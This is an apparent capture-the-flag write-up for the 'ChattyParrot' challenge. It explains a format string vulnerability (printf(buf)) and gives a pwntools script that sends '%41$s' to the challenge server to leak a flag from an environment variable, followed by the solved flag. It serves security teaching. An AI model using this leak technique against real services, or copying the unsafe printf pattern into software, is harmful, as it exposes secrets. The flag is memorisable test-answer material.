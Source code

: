 # ChattyParrot - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ChattyParrot.gif)

---

## Challenge Summary

The `ChattyParrot` binary contains a **format string vulnerability** in the `vuln()` function, where user input is passed to `printf()` without a format specifier. By using `%p` and `%s`, an attacker can **leak memory** and extract the flag stored in the `FLAG_VAL` environment variable. The goal is to craft input that reveals the flag by exploiting this vulnerability.

---

## Binary Information

```bash
$ file ChattyParrot
```

![Alt text](img/2.png)

```bash
$ checksec main
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf("%s", "Input your phrase:");
printf(buf);  // Format string vulnerability
```

![Alt text](img/4.png)

```c
read(0, buf, 0x100uLL);  // User input is read into buffer
```

![Alt text](img/5.png)

- The `main()` function retrieves the `FLAG_VAL` environment variable and copies it into `SECRET`.
- It then prompts the user for input and calls `vuln()`.
- In `vuln()`, 256 bytes are read into `buf` using `read(0, buf, 0x100)`.
- The input is then passed directly to `printf(buf)`, causing a format string vulnerability.

---

## Exploit Strategy

### Step 1: Leak Memory Address

We exploit the format string vulnerability by sending a payload containing `%p` and `%s` to leak memory addresses. This allows us to:

- Leak the address of the `FLAG_VAL` environment variable.

### Step 2: Extract the Flag

Using the leaked memory addresses, we can:

- Access the **value of `FLAG_VAL`** by reading the content at the leaked address, which contains the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host ctf.mf.grsu.by --port 9077
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ChattyParrot')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9077)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env = env_vars ,*a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

payload = b'%41$s'
io.sendline(payload)
io.recvuntil(b'Input your phrase:')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")





```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{J35KiI_P4RR07_Drug_M47u3}
```
